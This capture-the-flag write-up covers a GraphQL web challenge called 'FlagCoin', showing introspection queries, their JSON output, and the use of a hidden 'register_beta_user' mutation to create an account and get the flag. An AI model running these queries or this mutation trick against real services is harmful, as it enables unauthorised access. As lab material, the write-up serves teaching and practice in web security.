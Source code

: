 ### FlagCoin

I couldn't really play this as whole because I had some errands to run for. Though, I solved this easy web challenge which was based on GraphhQL
So, looking into the challenge, we see that there's a login page, checking the source of `main.js` which handles the login request:


```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "User"
        },
        {
          "name": "String"
        },
        {
          "name": "Int"
        },
        {
          "name": "Mutation"
        },
        {
          "name": "Voucher"
        },
        {
          "name": "JSON"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```
There are different numbers of schemas available but `Users` and `Mutations` are more of concern here, a quick overview of the `mutation` is that it acts like a function in a GraphQL query. Digging deeper into the `User` schema, we see that it contains 3 columns i.e. `username`, `password` and `coins`:

```r
query={__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "password",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "coins",
          "type": {
            "name": "Int",
            "kind": "SCALAR",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

Trying to query `User` with `query={User{username,password}}`, it simply threw an error `"message":"Cannot query field \"User\" on type \"Query\".",`. Since, we already know that `mutations` exists here, we can try to see if there is any other mutations we can make use of:

```json
{
  "data": {
    "__type": {
      "name": "Mutation",
      "fields": [
        {
          "name": "login",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "register_beta_user",
          "type": {
            "name": "User",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "redeem",
          "type": {
            "name": "Voucher",
            "kind": "OBJECT",
            "ofType": null
          }
        }
      ]
    }
  }
}
```

There is a mutation named `register_beta_user`, for the initial login request, I just replace the `login` with `register_beta_user` and the application gave a successful response:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": {
    "username": "hello",
    "password": "world"
  }
}
```

```json
{
  "data": {
    "register_beta_user": {
      "username": "hello"
    }
  }
}
```

Once done, logging in with the credentials `hello:world` gave the flag:

![](images/flagcoin.png)